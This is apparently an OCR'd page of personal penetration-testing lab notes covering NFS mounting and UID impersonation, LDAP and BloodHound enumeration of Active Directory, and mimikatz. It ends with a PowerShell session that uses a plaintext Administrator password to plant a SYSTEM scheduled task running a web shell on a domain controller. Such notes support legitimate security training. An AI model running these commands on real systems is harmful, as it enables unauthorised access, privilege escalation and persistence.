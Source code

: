 mount shares
`mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock`

file permission
`If you mount a folder which contains files or folders only accesible by some user (by UID). You can create locally a user with that UID and using that user you will be able to access the file/folder.`
misconfiguration of NFS permission can leads to PE
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

## Active Directory

Very useful website:
[WADComs](https://wadcoms.github.io/)
useful mindmap:
https://www.xmind.net/m/5dypm8/
### ldapsearch
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.120.108" "(objectclass=*)"
```

- enum user accounts
- password policy
- check account description
- find service account

### bloodhound
use bloodhound remotely:
`bloodhound.py -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1`

Alternative options ==> use binary or powershell script on target machine

start database
`neo4j console`

### mimikatz

**IMPORTANT** check mimikatz version, newer version does not work well on newer windows (mimikatz 2.1.1 works well for me)

check Mandatory Level, mimikatz need privilege

start a high intergrity level shell (may need UAC bypass):
`powershell.exe Start-Process cmd.exe -Verb runAs`

or using powershell:
```bash
c:\windows\system32\inetsrv>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> $pw = ConvertTo-SecureString "T4E@d8!/od@l36" -AsPlainText -Force
$pw = ConvertTo-SecureString "T4E@d8!/od@l36" -AsPlainText -Force
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> $creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
```